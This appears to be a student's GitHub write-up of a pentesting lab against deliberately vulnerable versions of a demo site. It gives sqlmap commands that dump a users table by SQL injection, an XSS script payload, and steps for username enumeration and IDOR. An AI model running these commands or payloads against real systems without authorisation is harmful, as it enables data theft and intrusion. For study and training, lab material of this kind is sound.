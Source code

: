 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue
Vulnerability #1: **SQL Injection**
  * **Steps:**
    1. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --current-db' to retrieve the database the website is currently using (which is "globitek_blue")
    2. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue --tables' to retrieve all of the tables that is in the database
    3. Use command: ''sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --dump -D globitek_blue -T users' to retrieve all users' information
  * **GIF walkthrough:**
    * ![sqli](https://user-images.githubusercontent.com/31838335/39098942-fed0c51e-463f-11e8-82c4-e410750e79d1.gif)
    
## Green
Vulnerability #1: **Username Enumeration**
  * **Steps:**
    1. Type in username
    2. Type in a random password
    3. Teep submitting the wrong password multiple times until the "failed logins" message shows up
  * **GIF walkthrough:**
    * ![usernameenum](https://user-images.githubusercontent.com/31838335/39099064-ef761ec8-4641-11e8-8094-556642464fc3.gif)

Vulnerability #2: **Cross-Site Scripting**
  * **Steps:**
    1. Go to Contact
    2. Submit a feedback with malicious code: <script>alert('xss')</script>
  * **GIF walkthrough:**
    * ![xss](https://user-images.githubusercontent.com/31838335/39099083-3bf6dbde-4642-11e8-9e3f-1f8d585dd0d9.gif)

## **Red** version of Globitek website 
Vulnerability #1: **Insecure Direct Object Reference**
  * **Steps:**
    1. Go to https://35.184.168.159/blue/public/salesperson.php?id=1
    2. Change the value of id to 10 or 11 would reveal information that should not be revealed
  * **GIF walkthrough:**
    * ![idor](https://user-images.githubusercontent.com/31838335/39099090-56e74dac-4642-11e8-84f7-111537caefb6.gif)

## **Bonus Objective 1:**
  * **Steps:**
    1. Since we know the name of the database we can use sqlmap to retrieve all information in the database
    2. Sample code: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue'
  * **GIF walkthrough:**
    * ![bonus](https://user-images.githubusercontent.com/31838335/39099232-0afc4502-4645-11e8-90de-94fda8d999ae.gif)


## Notes

Describe any challenges encountered while doing the work
